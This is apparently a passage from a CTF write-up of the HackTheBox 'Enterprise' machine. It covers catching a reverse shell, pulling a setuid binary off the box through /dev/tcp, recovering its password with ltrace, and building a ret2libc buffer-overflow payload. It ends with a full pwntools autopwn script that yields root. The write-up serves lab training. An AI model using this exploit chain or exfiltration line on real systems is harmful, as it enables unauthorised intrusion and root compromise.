    proc on /proc/sys type proc (ro,relatime)
    proc on /proc/sysrq-trigger type proc (ro,relatime)
    tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755)
    tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755)
    tmpfs on /proc/timer_stats type tmpfs (rw,nosuid,size=65536k,mode=755)
    tmpfs on /proc/sched_debug type tmpfs (rw,nosuid,size=65536k,mode=755)
    tmpfs on /sys/firmware type tmpfs (ro,relatime)
    
    www-data@a7018bfdc454:/home$ cd /var/www/html/files
    cd /var/www/html/files
    
    www-data@a7018bfdc454:/var/www/html/files$ ls
    ls
    lcars.zip
    

here we see that /var/www/html/files is mounted as the SAME /files directory we found on port 443 at the beginning

Creating a quick file using the touch command, we see that we are effectively able to create files in the /files directory. so let's upload our reverse shell using curl just like the previous 2 times : 

    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
      → nc -lvnp 9001
      listening on [any] 9001 ...
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.61] 54016
      bash: cannot set terminal process group (1618): Inappropriate ioctl for device
      bash: no job control in this shell
      www-data@enterprise:/var/www/html/files$ cd /home
      lcd /home
      www-data@enterprise:/home$ s
      ls
      jeanlucpicard
      www-data@enterprise:/home$ cd jeanlucpicard
      cd jeanlucpicard
      www-data@enterprise:/home/jeanlucpicard$ cat user.txt
      cat user.txt
      08XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

and that's it ! we have the user flag. 

## **Part 3 : Getting Root Access**

From there we go as usual into /tmp to upload and then execute LinEnum.sh, and looking at the results, we see that we have an interesting binary in /bin/lcars. so let's copy it locally :

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
      → nc -lp 9003 | base64 -d > lcars.binary && chmod +x lcars.binary
    

` _Terminal 2:_
    
    
      www-data@enterprise:/bin$ base64 lcars > /dev/tcp/10.10.14.11/9003
      base64 lcars > /dev/tcp/10.10.14.11/9003
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    →  nc -lp 9003 | base64 -d > lcars.binary && chmod +x lcars.binary
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → ltrace ./lcars.binary
    __libc_start_main(0x56588c91, 1, 0xffc87bc4, 0x56588d30 <****unfinished ...****>
    setresuid(0, 0, 0, 0x56588ca8)                                          = 0xffffffff
    puts(""
    )                                                                = 1
    puts("                 _______ _______"...                 _______ _______  ______ _______
    )                             = 49
    puts("          |      |       |_____|"...          |      |       |_____| |_____/ |______
    )                             = 49
    puts("          |_____ |_____  |     |"...          |_____ |_____  |     | |    \_ ______|
    )                             = 49
    puts(""
    )                                                                = 1
    puts("Welcome to the Library Computer "...Welcome to the Library Computer Access and Retrieval System
    
    )                             = 61
    puts("Enter Bridge Access Code: "Enter Bridge Access Code:
    )                                      = 27
    fflush(0xf7f3fd80)                                                      = 0
    fgets

At this point, we have to give some user input, so let's try and see if there is a certain limit to this input to trigger a buffer overflow 
    
    
    fflush(0xf7f2ed80)                                                      = 0
    fgets(AAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAaAAAAAAAAAAAAAAAAAAAa
    "AAAAAAAA", 9, 0xf7f2e5c0)                                        = 0xffa1ec17
    strcmp("AAAAAAAA", "picarda1")                                          = -1
    puts("\nInvalid Code\nTerminating Consol"...
    Invalid Code
    Terminating Console
    
    )                           = 35
    fflush(0xf7f2ed80)                                                      = 0
    exit(0 <****no return ...>
    +++ exited (status 0) +++

and we see that we managed to trigger some kind of a BOF revealling "picarda1" so let's run it within gdb :
    
    
      λ nihilist [ 80.215.152.250 ] [~/_HTB/Enterprise]
    → gdb ./lcars.binary
    GNU gdb (Debian 8.3.1-1) 8.3.1
    Copyright (C) 2019 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later 
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./lcars.binary...
    (No debugging symbols found in ./lcars.binary)
    gdb-peda$ r
    Starting program: /home/nihilist/_HTB/Enterprise/lcars.binary
    
                     _______ _______  ______ _______
              |      |       |_____| |_____/ |______
              |_____ |_____  |     | |    \_ ______|
    
    Welcome to the Library Computer Access and Retrieval System
    
    Enter Bridge Access Code:
    picarda1
    
                     _______ _______  ______ _______
              |      |       |_____| |_____/ |______
              |_____ |_____  |     | |    \_ ______|
    
    Welcome to the Library Computer Access and Retrieval System
    
    
    
    LCARS Bridge Secondary Controls -- Main Menu:
    
    1. Navigation
    2. Ships Log
    3. Science
    4. Security
    5. StellaCartography
    6. Engineering
    7. Exit
    Waiting for input:
    

With the picarda1 password we gain access to some sort of a menu within the binary, choosing 4 and then typing something we arrive at something interesting :
    
    
      1. Navigation
    2. Ships Log
    3. Science
    4. Security
    5. StellaCartography
    6. Engineering
    7. Exit
    Waiting for input:
    4
    Disable Security Force Fields
    Enter Security Override:
    
    asd
    Rerouting Tertiary EPS Junctions: asd[Inferior 1 (process 4645) exited normally]
    Warning: not running
    
    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : ENABLED
    RELRO     : Partial
    
    gdb-peda$ aslr
    ASLR is OFF
    
    

here we use checksec and see that NX and ASLR are both disabled. Back on the machine we check if ASLR is turned off as the binary says so :
    
    
      www-data@enterprise:/bin$ cat /proc/sys/kernel/randomize_va_space
    cat /proc/sys/kernel/randomize_va_space
    0
    

and here it says 0 therefore ASLR is actually disabled. 
    
    
      gdb-peda$ r
    Starting program: /home/nihilist/_HTB/Enterprise/lcars.binary
    
                     _______ _______  ______ _______
              |      |       |_____| |_____/ |______
              |_____ |_____  |     | |    \_ ______|
    
    Welcome to the Library Computer Access and Retrieval System
    
    Enter Bridge Access Code:
    picarda1
    
                     _______ _______  ______ _______
              |      |       |_____| |_____/ |______
              |_____ |_____  |     | |    \_ ______|
    
    Welcome to the Library Computer Access and Retrieval System
    
    
    
    LCARS Bridge Secondary Controls -- Main Menu:
    
    1. Navigation
    2. Ships Log
    3. Science
    4. Security
    5. StellaCartography
    6. Engineering
    7. Exit
    Waiting for input:
    4
    Disable Security Force Fields
    Enter Security Override:
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x216
    EBX: 0x73254125 ('%A%s')
    ECX: 0x7ffffde9
    EDX: 0xf7fab010 --> 0x0
    ESI: 0xf7fa9000 --> 0x1d6d6c
    EDI: 0xf7fa9000 --> 0x1d6d6c
    EBP: 0x41422541 ('A%BA')
    ESP: 0xffffd140 ("nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$A"...)
    EIP: 0x25412425 ('%$A%')
    EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x25412425
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd140 ("nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$A"...)
    0004| 0xffffd144 ("A%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAs"...)
    0008| 0xffffd148 ("%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-"...)
    0012| 0xffffd14c ("DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(A"...)
    0016| 0xffffd150 ("A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs"...)
    0020| 0xffffd154 ("%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)"...)
    0024| 0xffffd158 ("aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEA"...)
    0028| 0xffffd15c ("A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs"...)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x25412425 in ?? ()
    gdb-peda$ pattern_offset 500
    500 not found in pattern buffer
    gdb-peda$ pattern_offset
    Error: missing argument
    Search for offset of a value in cyclic pattern
    Set "pattern" option for basic/extended pattern type
    Usage:
        pattern_offset value
    
    gdb-peda$ pattern_offset %$A%
    %$A% found at offset: 212
    
    

Here we found the offset of our pattern (that was 500 chars) at 212. now we just need to find the addresses of system, +9999999 and sh in order to get our root shell using the following command within gdb : **find &system;,+9999999,"sh"** and once we're done we arrive at the following payload :
    
    
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x60\xc0\xe4\xf7\xf0\xfa\xe3\xf7\xd5\xdd\xf6\xf7
    

Which is basically 212 As, + system's memory address, + exit + /bin/sh. Another way of doing things is using a python script used to connect remotely to the machine, and directly execute the binary with the correct payload, which effectively gives us a root shell on the machine.
    
    
    #!/usr/bin/env python2
    import time
    import struct
    from pwn import *
    from subprocess import *
    
    DEBUG = False
    RHOST = "10.10.10.61"
    RPORT = 32812
    
    def conv(num):
        return struct.pack("<****I",num)
    
    payload = "A" * 212
    payload += conv(0xf7e4c060) # system()
    payload += conv(0xf7e3faf0) # exit()
    payload += conv(0xf7f6ddd5) # 'sh'
    
    r = remote(RHOST, RPORT)
    r.recvuntil("Enter Bridge Access Code: ")
    r.sendline("picarda1")
    r.recvuntil("Waiting for input: ")
    r.sendline("4")
    r.recvuntil("Enter Security Override:")
    r.sendline(payload)
    r.interactive()

Save it locally, and then execute it : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → ./autopwn.py
    zsh: permission denied: ./autopwn.py
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → chmod +x autopwn.py
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Enterprise]
    → ./autopwn.py
    [+] Opening connection to 10.10.10.61 on port 32812: Done
    [*] Switching to interactive mode
    
    $ id
    uid=0(root) gid=0(root) groups=0(root)
    $ cat /root/root.txt
    cfXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

